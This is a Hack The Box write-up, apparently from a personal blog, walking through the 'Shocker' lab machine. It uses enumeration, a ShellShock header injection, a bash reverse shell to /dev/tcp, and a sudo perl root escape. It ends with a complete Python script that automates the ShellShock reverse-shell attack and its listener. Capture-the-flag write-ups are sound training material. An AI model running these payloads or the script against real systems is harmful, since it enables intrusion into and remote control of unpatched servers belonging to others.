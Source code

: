 ```yaml
---
title: "Shocker - HTB"
categories: [HackTheBox, Easy]
tags: [Linux,Easy,Web,ShellShock,RCE]
mermaid: true
image: https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Shocker.png
---
```



# Introdution


[https://app.hackthebox.com/machines/Shocker](https://app.hackthebox.com/machines/Shocker)


This was a machine very easy in Hack The Box. In it we explore a vulnerability called ShellShock. 

The privilege escalation was with sudo in the perl binary.

The exploit for this machine is on the end of the post.

**Have a good time!**


## Diagram

```mermaid
graph TD
    A[Enumeration] -->|Nmap| B(Port 80)
    B --> C[Gobuster]
    C --> |Gobuster| D[/cgi-bin/user.sh/]
    D --> ShellShock --> E[RCE]
    E --> |Script Python| F[Shell]
    F --> G[Root]
```

# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.56 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -p $ports 10.10.10.56
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled.png)


## **Port 80 (http)**

There’re a simple page web.

`http://10.10.10.56/`

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%201.png)

The source code also don’t have nothing.

`view-source:http://10.10.10.56/`

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%202.png)

### **Fuzzing Diretório WEB**

We will make a fuzzing with the tool `gobuster`.

```bash
gobuster dir -u http://10.10.10.56/ -w /usr/share/wordlists/dirb/big.txt -t 100 -e --no-error -r -f
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%203.png)

We find the directory `cgi-bin`.

Based in the name’s machine, we can suggest that this directory there’re the vulnerability ShellShock.

So we did another fuzzing in the directory with some common cgi extension (sh, cgi, pl).

```bash
gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirb/big.txt -t 100 -e --no-error -r -f -x sh,cgi,pl
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%204.png)

We find only the file `user.sh`.

### User.sh

We run the file with `curl` to see your output

```bash
curl http://10.10.10.56/cgi-bin/user.sh
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%205.png)

Looks like it's a script running the `uptime` command, suggesting that this is a CGI bash script in execution

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%206.png)

We find shellshock.

# Exploration

## **Exploiting ShellShock**

> ShellShock (also known as Bashdoor or CVE-2014-6271) was a vulnerability in Bash discovered in 2014 that has to do with the Bash syntax for defining a function. The vuln allowed that the attacker run commands in places where they should to do only something safe like setting a environment variable.
> 

### POC shellshock:

```bash
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'id' " http://10.10.10.56/cgi-bin/user.sh
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%207.png)

Alternatively, we can run the `nmap` for discover the vuln:

```bash
nmap -sV -p 80 --script http-shellshock --script-args uri**=**/cgi-bin/user.sh 10.10.10.56
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%208.png)

## Getting Shell

After to prepare the listener, I getting the shell with the below command

```bash
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%209.png)

# Post Exploration

## Privilege Escalation (shelly → root)

We check the `perl` run sudo.

```bash
**sudo -l**
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%2010.png)

Looking in the [GTOFBins](https://gtfobins.github.io/gtfobins/perl/#sudo) website, we find the command that allow to get root with the perl.

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%2011.png)

```bash
sudo perl -e 'exec "/bin/bash";'
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%2012.png)

# Get Shell - Script Automation

This is a script in python to exploit this machine.

`shocker-getshell.py`

```python
#! /usr/bin/env python3

## Author: 0xEtern4lW0lf
## Created: 18 Dez 2022
## Description: GetShell - Shocker - HTB

## ========= MODULES =========

import argparse
import requests
import socket
import telnetlib
from threading import Thread

## ========= VARIABLE =========

## Set proxy [OPTIONAL]
#proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

## ========= FUNCTION =========

## Set the handler
def handler(lport,target):
    print(f"[+] Starting handler on {lport} [+]")
    tn = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0",lport))
    s.listen(1)
    conn, addr = s.accept()
    print(f"[+] Receiving connection from {target} [+]")
    tn.sock = conn
    print("[+] Habemus Shell! [+]")
    tn.interact()

## Get the reverse shell
def GetShell(rhost,lhost,lport):
    print("[+] Sending payload! [+]")
    payload = f"bash -i >& /dev/tcp/{lhost}/{lport} 0>&1"
    url = f"http://{rhost}/cgi-bin/user.sh"
    headers = {"User-Agent": "() { :;}; echo; /bin/bash -c '%s'" %payload}
    r = requests.session()
    r.get(url, headers=headers)

## main
def main():
    ## Parse Arguments
    parser = argparse.ArgumentParser()
    parser = argparse.ArgumentParser(description='GetShell - Shocker / HTB - 0xEtern4lW0lf')
    parser.add_argument('-t', '--target', help='Target IP address or hostname', required=True)
    parser.add_argument('-l', '--lhost', help='Local IP address or hostname', required=True)
    parser.add_argument('-p', '--lport', help='Local Port to receive the shell', required=True)

    args = parser.parse_args()

    rhost = args.target
    lhost = args.lhost
    lport = args.lport

    ## Setup the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()

    ## Get the reverse shell
    GetShell(rhost,lhost,lport)

## ======= EXECUTION =======

if __name__ == '__main__':
    main()
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%2013.png)

 More scripts in [https://github.com/0xEtern4lW0lf](https://github.com/0xEtern4lW0lf).